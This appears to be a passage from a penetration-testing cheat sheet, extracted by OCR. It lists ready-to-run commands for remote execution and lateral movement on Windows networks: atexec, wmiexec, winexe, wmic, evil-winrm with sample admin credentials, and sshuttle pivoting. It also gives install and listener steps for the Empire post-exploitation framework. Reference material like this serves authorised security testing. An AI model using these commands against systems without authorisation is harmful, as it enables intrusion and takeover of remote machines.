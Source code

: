         -   **atexec**

            -   python atexec.py DOMAIN/username:password\@10.10.10.10

            -   executes a command on the target machine through the Task Scheduler service

        -   **wmiexec**

            -   python wmiexec.py DOMAIN/username:password\@10.10.10.10

            -   python wmiexec.py DOMAIN/username:password\@10.10.10.10 "cmd.exe"

    -   **winexe**

        -   winexe -U Domain/user%Password //192.168.112.200 cmd.exe

    -   **Wmnic**

        -   wmic /node:10.0.0.6 /user:administrator /password:test   process call create \"cmd.exe \"

    -   **Sshuttle**

        -   Apt install sshuttle

        -   sshuttle -r user@\[target\_ip\] 0.0.0.0/0 {0/0 == 0.0.0.0/0}

        -   sshuttle -vr user\@webserver targetSubnet/24

    -   **Evil-winrm \[winrm for linux\]**

        -   git clone https://[github.com]/Hackplayers/evil-winrm

        -    evil-winrm -i IP -u USER \[-s SCRIPTS\_PATH\] \[-e EXES\_PATH\] \[-P PORT\] \[-p PASS\] \[-H HASH\] \[-U URL\] \[-S\] \[-c PUBLIC\_KEY\_PATH \] \[-k PRIVATE\_KEY\_PATH \] \[-r REALM\]

        -   evil-winrm.rb -i 192.168.1.100 -u Administrator -p \'MySuperSecr3tPass123!\' -s \'/home/foo/ps1\_scripts/\' -e \'/home/foo/exe\_files/\'


    -   **Powershell**

        -   Enter-PSSession --ComputerName \[name\]

    -   **Pass the hash**
 
    -   **Pass the ticket**


-   <h2 align="center">Empire framework</h2>
    >   Empire is a "PowerShell and Python post-exploitation agent" with a heavy focus on client-side exploitation and post-exploitation of Active Directory (AD) deployments based on listeners and payloads called agents or stagers)

    -   **Download & Installation**

        -   Git clone <https://github.com/EmpireProject/Empire.git>

        -   Cd Empire && ./setup/install.sh

    -   **Commands**

        -   help

        -   listeners     -\>enter listener tab and list alll listeners working
